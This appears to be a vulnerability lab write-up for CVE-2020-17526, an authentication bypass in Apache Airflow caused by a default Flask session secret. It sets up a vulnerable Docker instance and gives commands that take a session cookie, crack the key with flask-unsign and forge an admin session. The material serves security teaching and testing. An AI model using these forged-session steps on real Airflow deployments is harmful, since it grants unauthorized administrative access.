




Apache Airflow Authentication Bypass (CVE-2020-17526)¶
Apache Airflow is an open source, distributed task scheduling framework. Although authentication is not required by default, but the administration can specify the webserver.authenticate=True to enable it.
In the version prior to 1.10.13, Apache Airflow uses a default session secert key, which leads to impersonate arbitrary user when authentication is enabled.
References:
- https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0
- https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise
Vulnerability Environment¶
Execute the following commands to start an airflow 1.10.10 server:
#Initialize the database
docker compose run airflow-init
#Start service
docker compose up -d
After the server is started, browse the http://your-ip:8080 to see the login page of Apache Airflow. Yes, this server required authentication.
Exploit¶
Firstly, browse the login page and get a session string from Cookie:
curl -v http://localhost:8080/admin/airflow/login

Then, use flask-unsign to crack the session key:
flask-unsign -u -c [session from Cookie]

Bingo, we got the valid session key temporary_key. Then, use this key to generate a new session whose user_id equals to 1:
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"

Finally, use this generated session to log in successfully:
